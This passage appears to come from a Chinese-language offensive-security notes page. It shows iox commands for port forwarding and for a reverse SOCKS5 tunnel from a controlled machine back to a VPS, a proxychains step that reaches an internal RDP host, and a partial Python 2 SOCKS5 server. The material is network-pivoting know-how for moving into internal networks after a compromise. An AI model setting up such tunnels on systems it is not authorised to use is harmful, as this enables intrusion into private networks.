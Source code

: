 
连接 1.1.1.1:8888 和 1.1.1.1:9999 , 在两个连接间转发：

```sh
./iox fwd -r 1.1.1.1:8888 -r 1.1.1.1:9999
```

- proxy（代理）

在本地 0.0.0.0:1080启动Socks5服务

```sh
./iox proxy -l 1080
```


在被控机开启 Socks5 服务，将服务转发到公网 VPS, 在 VPS 上转发 0.0.0.0:9999 到 0.0.0.0:1080

你必须将两条命令成对使用，因为它内部包含了一个简单的协议来控制回连

```sh
# 被控机器
./iox proxy -r 1.1.1.1:9999
# VPS
./iox proxy -l 9999 -l 1080 // 注意，这两个端口是有顺序的
```

接着连接内网主机：

```
# proxychains.conf
# socks5://1.1.1.1:1080
$ proxychains rdesktop 192.168.0.100:3389
```

#### socks5.py

```py
import socket, sys, select, SocketServer, struct, time  
  
class ThreadingTCPServer(SocketServer.ThreadingMixIn, SocketServer.TCPServer): pass  
class Socks5Server(SocketServer.StreamRequestHandler):  
    def handle_tcp(self, sock, remote):  
        fdset = [sock, remote]  
        while True:  
            r, w, e = select.select(fdset, [], [])  
            if sock in r:  
                if remote.send(sock.recv(4096)) <= 0: break  
            if remote in r:  
                if sock.send(remote.recv(4096)) <= 0: break  
    def handle(self):  
        try:  
            print 'socks connection from ', self.client_address  
            sock = self.connection  
            # 1. Version  
            sock.recv(262)  
            sock.send(b"\x05\x00");  
            # 2. Request  
            data = self.rfile.read(4)  
            mode = ord(data[1])  
            addrtype = ord(data[3])  
            if addrtype == 1:       # IPv4  
                addr = socket.inet_ntoa(self.rfile.read(4))  
            elif addrtype == 3:     # Domain name  
                addr = self.rfile.read(ord(sock.recv(1)[0]))  
            port = struct.unpack('>H', self.rfile.read(2))  
            reply = b"\x05\x00\x00\x01"  
            try:  
                if mode == 1:  # 1. Tcp connect  
                    remote = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
                    remote.connect((addr, port[0]))  
```